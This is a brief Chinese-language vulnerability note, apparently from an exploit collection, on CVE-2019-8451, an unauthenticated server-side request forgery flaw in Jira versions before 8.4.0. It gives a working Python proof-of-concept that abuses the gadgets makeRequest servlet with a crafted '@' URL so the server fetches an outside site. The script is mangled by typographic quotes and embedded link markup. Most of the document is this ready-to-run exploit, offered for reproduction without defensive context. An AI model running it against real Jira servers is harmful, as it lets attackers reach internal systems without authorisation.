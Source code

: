```yaml
---
title: "（CVE-2019-8451）Jira未授权SSRF漏洞验证"
id: zhfly2991
---
```


# （CVE-2019-8451）Jira未授权SSRF漏洞验证

## 一、漏洞简介

（CVE-2019-8451）Jira未授权SSRF漏洞验证

## 二、影响范围

Jira < 8.4.0

## 三、复现过程

https://github.com/ianxtianxt/CVE-2019-8451

```
#coding:utf-8
import requests

host = ‘[http://xx.xx.xx.xx:8080](http://xx.xx.xx.xx:8080)’

header = {

‘X-Atlassian-Token’: ‘no-check’,

‘Connection’: ‘close’

} `url = host + ‘/plugins/servlet/gadgets/makeRequest?url=’+host+’@www.baidu.com/’

html = requests.get(url = url,headers = header)

print html.text` 
```